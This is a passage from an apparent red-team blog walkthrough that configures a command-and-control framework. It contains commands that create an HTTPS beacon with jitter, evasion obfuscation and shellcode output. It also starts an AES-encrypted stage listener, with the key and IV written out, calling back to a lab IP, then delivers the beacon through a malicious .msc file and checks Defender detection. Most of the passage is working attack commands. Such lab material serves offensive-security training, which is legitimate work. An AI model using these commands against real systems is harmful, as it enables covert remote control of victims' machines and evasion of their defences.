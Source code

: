 Let's set up a new beacon that uses https traffic to call back to our C2. The delay of each command will be 60 seconds with a 60% of jitter. Also, we will enable the obfuscation with the evasion parameter. Finally, we will configure the format to be shellcode and call it win-shellcode.
```bash
profiles new beacon -b https://192.168.3.2:443 --seconds 60 --jitter 60 --evasion --format shellcode win-shellcode
```

Now for the stage listener, we will use port 8000 using http for the traffic. We will use the profile that we generated previously and use AES encryption for the payload. This will compile the payload and start the listener for the stage listener.

```bash
stage-listener --url http://192.168.3.2:8000 --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

To start the https listener simply enter https. 

```
https
```

All is set up to launch the beacon! So double clicking our msc and you should have your beacon back.

<img src="/images/2024-06-27-imgs/7-beacon.png" alt="">



Detection
---
Now let's try with Defender on.
<img src="/images/2024-06-27-imgs/8-detected-as-sharpshooter.png" alt="">
